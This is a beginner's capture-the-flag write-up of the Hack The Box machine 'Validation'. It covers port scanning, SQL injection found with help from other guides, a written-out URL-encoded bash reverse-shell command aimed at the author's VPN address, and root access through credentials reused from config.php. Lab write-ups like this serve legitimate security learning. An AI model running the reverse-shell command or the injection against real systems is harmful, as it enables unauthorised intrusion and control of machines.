 # Validation

This is my write-up for the machine called **Validation** located at: [https://app.hackthebox.com/machines/Validation](https://app.hackthebox.com/machines/Validation).&#x20;

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walkthrough for this machine.
{% endhint %}

rustscan: rustscan -a 10.10.11.116

![](<../../.gitbook/assets/image (349).png>)

Going to port 80, we see this page:

![](<../../.gitbook/assets/image (338).png>)

On Hack The Box, I got a hint from one of the tags from the machine:

![](<../../.gitbook/assets/image (352).png>)

It seems that I need to run some type of SQL Injection on the page. After trying a bunch of SQL queries, I ended up running an nmap scan on the machine, since according to the walk-through, I had missed a bunch of open ports using rust scan:

![](<../../.gitbook/assets/image (350).png>)

After I got stuck, I found [this write-up](https://solomon-sec.com/hack-the-box-validation-walkthrough/) that basically made it understand where the vulnerability was:

![](<../../.gitbook/assets/image (345).png>)

I then got the following output:

![](<../../.gitbook/assets/image (342).png>)

This showed me that this is vulnerable to SQL Injection. Viewing the same write-up, I then changed the parameters to then submit to the website:

![](<../../.gitbook/assets/image (351).png>)

![](<../../.gitbook/assets/image (335).png>)

I then got stuck again and then watched [this video](https://youtu.be/dFKsSYVeVbI) that assisted a bit more in the understanding of what I was messing up on. I found out that I had to run the command to get a shell on the system:

![](<../../.gitbook/assets/image (341).png>)

After I ran this command, I was able to run commands on the system:

![](<../../.gitbook/assets/image (328).png>)

Apparently the IP Addresses of the VPN you are using on HTB can change, which was something I did not know. When I ran **ifconfig**, I understood why my reverse shell command was not working when I tried it. In any case, I got the reverse shell by running the following command (recommended by the official write-up and modified to work for me):

`bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.14/1234+0>%261'`

In order to get this to work though, you have to change your request from GET to POST, which can be done by clicking on the button below:

![](<../../.gitbook/assets/image (340).png>)

You can then submit the command, as seen in the image above. After I had the shell, the first thing I did was find the user.txt file:

![](<../../.gitbook/assets/image (344).png>)

I was trying to find a way to upload **linpeas.sh** or get a way to see what access I had, but I ended up getting nowhere. On the official write-up, the credentials I had seen earlier in config.php, were the credentials for the root user:

![](<../../.gitbook/assets/image (329).png>)

I was then able to get the flag using the root access.

